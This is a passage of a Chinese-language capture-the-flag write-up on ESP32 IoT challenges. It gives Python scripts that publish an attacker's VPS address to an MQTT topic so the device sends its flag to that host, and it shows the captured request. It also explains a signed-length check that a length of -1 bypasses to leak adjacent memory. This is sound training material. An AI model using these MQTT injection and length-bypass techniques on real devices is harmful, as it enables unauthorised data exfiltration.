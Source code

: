 - 解法：向flag2目标主题发送自己VPS的IP即可

![image](https://xuanxuanblingbling.github.io/assets/pic/esp32/image-20211127175056665.png)

当然也可以使用python向目标topic发送消息：

```python
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("mqtt.esp32ctf.xyz",1883,60)
client.publish("/topic/flag2/tdzloj","49.233.20.19")
```

即可在VPS上收到flag：

```python
ubuntu@VM-16-6-ubuntu:~$ sudo nc -l -p 80
GET / HTTP/1.0
User-Agent: esp-idf/1.0 esp32
flag: THUCTF{attAck_t0_th3_dev1ce_tcp_r3cV_ch4nnel} 
```

### task3

- 题目：这是个内存破坏的前戏

```c
sprintf(url,"%.*s",length, data);

char fmt[] = "GET / HTTP/1.0\r\n"
                "User-Agent: esp-idf/1.0 esp32\r\n"
                "flag: %s\r\n"
                "\r\n";

if( a < (int)(sizeof(mqtt_flag_2) + sizeof(tag3) - 1 ) ){
    memcpy(out,flagdata,a & 0xff);
    sprintf(httpdata,fmt,out);
    http_get_task(url,httpdata);
}          
```

- 解法：判断长度时有符号，使用时与上0xff，相当于无符号，故长度为-1即可绕过大小限制，带出位于flag2后的flag3

![image](https://xuanxuanblingbling.github.io/assets/pic/esp32/image-20211127175117275.png)


当然也可以直接在VPS上一个脚本搞定：

```python
import paho.mqtt.client as mqtt
from pwn import *

io = listen(80)

client = mqtt.Client()
client.connect("mqtt.esp32ctf.xyz",1883,60)
client.publish("/topic/flag2/tdzloj","49.233.20.19?-1")

print(io.recv())                 
```
